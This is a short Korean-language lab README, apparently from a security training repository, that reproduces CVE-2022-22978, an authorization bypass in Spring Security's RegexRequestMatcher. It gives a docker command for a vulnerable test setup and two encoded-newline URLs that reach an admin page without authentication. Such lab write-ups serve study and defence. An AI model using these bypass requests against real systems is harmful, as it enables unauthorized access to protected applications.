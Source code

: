 

# Spring Security RegexRequestMatcher 인증 우회 취약점 (CVE-2022-22978)

화이트햇 스쿨 3기(17반) -  [박성현](https://github.com/sh1220)
</br>

</br>

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.  
Spring Security 버전 5.5.6, 5.6.3 및 그 이하의 지원되지 않는 버전들에서는,  
정규 표현식에 `.`(닷)을 사용하는 `RegexRequestMatcher`를 활용하는 애플리케이션이  
인증 우회(Authorization Bypass) 취약점에 노출될 수 있습니다.

## 참고 자료

- [Tanzu Security Advisory - CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)
- [GitHub - DeEpinGh0st/CVE-2022-22978](https://github.com/DeEpinGh0st/CVE-2022-22978)

## 취약점 환경 구축

아래 명령어를 실행하여 Spring Security 5.6.3을 기반으로 한 웹 애플리케이션을 시작합니다:

```bash
docker compose up -d
```

서버가 정상적으로 기동된 이후,
브라우저에서 <http://your-ip:8080/admin>로 접속합니다:

## 취약점 재현 방법

다음과 같이 요청을 보내면 인증 없이 관리자 페이지에 접근할 수 있습니다:
- http://your-ip:8080/admin/%0atest
- http://your-ip:8080/admin/%0dtest

우회에 성공하면 정상적으로 접근되는 화면이 나타납니다.

![](forbidden.png)